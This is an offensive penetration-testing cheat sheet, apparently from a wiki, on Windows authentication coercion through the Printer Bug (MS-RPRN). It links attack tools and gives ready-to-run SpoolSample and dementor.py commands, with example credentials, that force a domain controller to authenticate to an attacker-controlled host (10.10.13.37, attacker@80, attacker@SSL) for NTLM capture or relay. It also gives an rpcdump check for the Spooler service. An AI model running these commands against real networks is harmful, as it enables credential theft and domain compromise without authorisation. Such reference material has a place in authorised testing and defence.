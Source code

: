 # Authentication Coercion

- [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [https://habr.com/ru/post/688682/](https://habr.com/ru/post/688682/)

{% hint style="info" %}
It's a good idea to check if **NTLMv1 downgrade** is possible when triggering the callbacks.
{% endhint %}

{% content-ref url="/pentest/infrastructure/ad/ntlm/ntlmv1-downgrade.md" %}
[ntlmv1-downgrade.md](ntlmv1-downgrade.md)
{% endcontent-ref %}




## Printer Bug (MS-RPRN)

{% embed url="https://twitter.com/DebugPrivilege/status/1410158556540719104" %}

Check if Spooler is running via Remote Registry:

```
$ rpcdump.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11 | grep -A2 -e MS-RPRN -e MS-PAR
```



### SpoolSample

* [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/0x00ach/stuff/blob/master/MS-RPRN.exe](https://github.com/0x00ach/stuff/blob/master/MS-RPRN.exe)
* [https://github.com/BeetleChunks/SpoolSploit](https://github.com/BeetleChunks/SpoolSploit)

```
Cmd > .\SpoolSample.exe 192.168.1.11 10.10.13.37
Cmd > .\SpoolSample.exe 192.168.1.11 attacker@80/test.txt
Cmd > .\SpoolSample.exe 192.168.1.11 attacker@SSL/test.txt
```



### dementor.py

* [https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)

```
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC01.megacorp.local
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@80/test.txt DC01.megacorp.local
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@SSL/test.txt DC01.megacorp.local
```
